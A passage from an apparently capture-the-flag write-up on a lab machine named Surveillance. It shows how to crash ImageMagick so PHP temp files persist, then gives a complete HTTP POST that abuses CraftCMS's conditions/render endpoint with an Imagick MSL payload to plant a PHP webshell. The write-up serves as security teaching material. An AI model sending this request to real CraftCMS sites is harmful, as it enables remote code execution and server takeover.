 ```
--0xdf0xdf0xdf0xdf

```

This will crash ImageMagick and prevent PHP from cleaning up the files.

I don’t have a good way to see this on target. The cleanest thing to do would be to run a copy of CraftCMS locally. From a Beyond Root point of view, I can see this creates the file:

```

root@surveillance:/tmp# ls php*
php0CZhKw
root@surveillance:/tmp# cat php0CZhKw 
This is a test

```

#### Write WebShell

Now that I can upload, I’ll use the same trick as Intentions to write a webshell using an MSL file:

```

POST /index.php HTTP/1.1
Host: surveillance.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
Content-Type: multipart/form-data; boundary=0xdf0xdf0xdf0xdf
Content-Length: 760
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="action"

conditions/render
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="test[userCondition]"

craft\elements\conditions\users\UserCondition
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="config"

{"name":"test[userCondition]","as xyz":{"class":"imagick","__construct()":{"files":"msl:/etc/hostname"}}}
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="fakefile"; filename="0xdf.txt"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php system($_REQUEST['cmd']); ?&gt;" />
<write filename="info:/var/www/html/craft/web/0xdf.php" />
</image>
--0xdf0xdf0xdf0xdf

```
